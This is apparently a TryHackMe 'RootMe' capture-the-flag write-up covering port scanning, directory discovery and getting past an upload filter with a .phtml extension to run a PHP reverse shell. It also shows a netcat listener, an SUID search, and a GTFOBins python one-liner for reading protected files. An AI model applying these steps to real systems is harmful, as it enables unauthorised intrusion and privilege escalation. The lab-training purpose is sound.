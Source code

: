 RootMe | TryHackMe
==================
undermouse, 21.2.2021


# Preparation

```bash
export $IP=<machine_ip>
mkdir nmap
```

# First, let's get information about the target.
Command to scan with **nmap**:
```bash
nmap -sC -sV -oN nmap/init $IP
```

##  How many ports are open?
```
2
```

## Apache Version
```
2.4.29
```

## What's running on port 22?
```
ssh
```

## The name of the hidden directory (used gobuster to find it)
```
/panel/
````


# Getting a shell

## Setup and avoding backend file extention filters
I checked if it's a PHP site by going to `MACHINE_IP/index.php`, it was the same as without `index.php`, so it means it's a PHP site.  
I will use PHP reverse shell code and upload it on target.  
  
PHP is not allowed, tried `phtml` ext and it worked.  
  
Let's set up a listener:
```bash
nc -lnvvp 9999
```

I've gone to `/uploads/rs.phtml` to start PHP code.   
   
## Searching for user.txt
```bash
find / -name "user.txt" 2>/dev/null
```

Answer for 3rd step:
```
In file
```


# PrivEsc

## Search for files with SUID permission, which file is weird? 
I'll use this command:
```
find / -perm -4000 2>/dev/null
```

Answer:
```
/usr/bin/python
```

## Escalating with GTFOBins
I found this on `GTFOBins`

```bash
python -c 'print(open("file_to_read").read())'
```


## Root.txt
```
Find it yourself!
```



